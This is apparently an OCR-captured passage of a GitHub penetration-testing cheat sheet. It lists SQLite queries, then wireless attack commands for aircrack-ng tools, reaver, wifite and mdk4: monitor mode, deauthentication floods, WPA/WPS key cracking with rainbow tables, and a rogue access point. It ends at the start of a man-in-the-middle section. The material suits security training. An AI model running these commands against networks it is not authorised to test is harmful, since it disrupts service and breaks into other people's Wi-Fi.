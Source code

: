 ```cd```

```sqlite3 database.db ".tables"```
_Lists all tables in 'database.db', quick way to explore SQLite structure._

```sqlite3 database.db "SELECT * FROM table_name"```
_Queries all data from 'table_name' in 'database.db', extracts info from SQLite databases._

## Wireless Cracking

```airmon-ng start wlan0```
_Puts 'wlan0' into monitor mode (e.g., 'wlan0mon', not all interfaces will show as wlan0mon, some may keep the original name), enables wireless packet capture for attacks._

```airmon-ng stop wlan0mon```
_Disables monitor mode on 'wlan0mon', returns interface to managed mode after testing._

```airodump-ng wlan0mon```
_Scans for wireless networks on 'wlan0mon', displays APs, clients, and signal strength for targeting._

```airodump-ng -c channel --bssid AP_MAC wlan0mon```
_Captures packets for a specific AP on 'channel' with 'AP_MAC', focuses on a single network for cracking._

```aireplay-ng -0 10 -a AP_MAC wlan0mon```
_Sends 10 deauthentication packets to 'AP_MAC', forces clients to reconnect and reveal handshakes._

```aircrack-ng capture_file.cap```
_Cracks WEP/WPA keys from 'capture_file.cap' using captured handshakes, core wireless cracking tool._

```airolib-ng rainbowtable --import essid essid.txt```
_Imports ESSIDs from 'essid.txt' into 'rainbowtable', preps for rainbow table generation._

```airolib-ng rainbowtable --import passwd pass.txt```
_Imports passwords from 'pass.txt' into 'rainbowtable', builds a password database for cracking._

```airolib-ng rainbowtable --stat```
_Displays statistics of 'rainbowtable' (e.g., entries, progress), verifies table readiness._

```airolib-ng rainbowtable --batch```
_Generates password hashes in 'rainbowtable', computes tables for faster cracking._

```airolib-ng rainbowtable --clean all```
_Removes invalid entries from 'rainbowtable', optimizes table for efficiency._

```aircrack-ng -r rainbowtable capture_file.cap```
_Uses 'rainbowtable' to crack keys in 'capture_file.cap', accelerates WPA cracking with precomputed hashes._

```reaver -i wlan0mon -b AP_MAC -vv```
_Brute-forces WPS PIN on 'AP_MAC' with verbose output, exploits WPS vulnerabilities._

```wifite --wpa```
_Automates WPA cracking on detected networks, simplifies wireless attacks for efficiency._

```airbase-ng -a AP_MAC wlan0mon```
_Creates a rogue AP mimicking 'AP_MAC', tricks clients into connecting for MITM attacks._

```mdk4 wlan0mon -a```
_Launches deauthentication attacks on all APs via 'wlan0mon', disrupts networks for handshake capture._

## Man in the Middle

```echo 1 > /proc/sys/net/ipv4/ip_forward```
_Enables IP forwarding (as root), allows packet routing between victim and gateway for MITM._
```